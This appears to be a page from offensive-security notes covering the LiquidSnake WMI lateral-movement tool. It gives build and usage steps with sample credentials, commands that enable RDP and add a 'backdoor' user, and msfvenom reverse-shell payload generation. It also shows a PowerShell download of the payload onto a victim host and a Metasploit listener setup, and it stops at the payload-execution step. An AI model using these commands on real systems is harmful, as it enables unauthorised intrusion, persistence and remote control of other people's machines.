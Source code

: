 The project is composed by two separate solutions:

CSharpNamedPipeLoader - the component that will be transformed in VBS via GadgetToJScript
LiquidSnake - the component responsible to creating the WMI Event Subscription on the remote system
Install:

Open both solutions in Visual Studio and build. Make sure to target x64 architecture for the CSharpNamedPipeLoader.

Output: Two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Full build information can be found here.

Usage:

Use LiquidSnake.exe agains a host where you have administrative access over as follows:

LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman DeathToFrodo123 isengard.local
If everything went fine, you should obtain an output similar as the following:

[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Sending some DCOM love..
[*] Sleeping again... long day
General usage information can be found here.

Full LiquidSnake usage information can be found here.

LiquidSnake

Image used from https://github.com/RiccardoAncarani/LiquidSnake#usage

🔙Enabling RDP
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
net localgroup "Remote Desktop Users" "backdoor" /add
🔙Upgrading shell to meterpreter
Shells (https://infinitelogins.com/tag/payloads/)

After getting basic shell access to an endpoint a meterpreter is nicer to continue with.

[attacker] Generate a meterpreter shell:

msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf
image

[victim] Download to victim endpoint:

powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`
[attacker] Configure listener:

use exploit/multi/handler 
set PAYLOAD windows/meterpreter/reverse_tcp 
set LHOST your-ip 
set LPORT listening-port run`
[victim] Execute payload:
